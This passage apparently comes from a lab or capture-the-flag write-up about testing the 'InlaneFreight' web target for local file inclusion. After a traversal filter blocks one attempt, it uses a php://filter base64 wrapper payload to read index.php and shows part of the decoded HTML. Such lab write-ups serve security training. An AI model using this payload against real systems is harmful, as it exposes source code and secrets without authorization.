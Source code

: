 We get `Invalid Input dteected!` error, so, it seems like they've filtered stuff like `....//` to avoid basic LFI, let's test another stuff, for example, php filters, let's try to read `/index.php`:

```
php://filter/read=convert.base64-encode/resource=index
```

![Pasted image 20250218223355.png](../../../IMAGES/Pasted%20image%2020250218223355.png)

And surprisingly, this goes through, let's decode the contents to search for any useful stuff in here:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>InlaneFreight</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Poppins:200,300,400,700,900|Display+Playfair:200,300,400,700"> 
    <link rel="stylesheet" href="fonts/icomoon/style.css">

    <link rel="stylesheet" href="css/bootstrap.min.css">
    <link rel="stylesheet" href="css/magnific-popup.css">
    <link rel="stylesheet" href="css/jquery-ui.css">
    <link rel="stylesheet" href="css/owl.carousel.min.css">
    <link rel="stylesheet" href="css/owl.theme.default.min.css">

    <link rel="stylesheet" href="css/bootstrap-datepicker.css">

    <link rel="stylesheet" href="fonts/flaticon/font/flaticon.css">



    <link rel="stylesheet" href="css/aos.css">

    <link rel="stylesheet" href="css/style.css">
    
  </head>
  <body>
  
```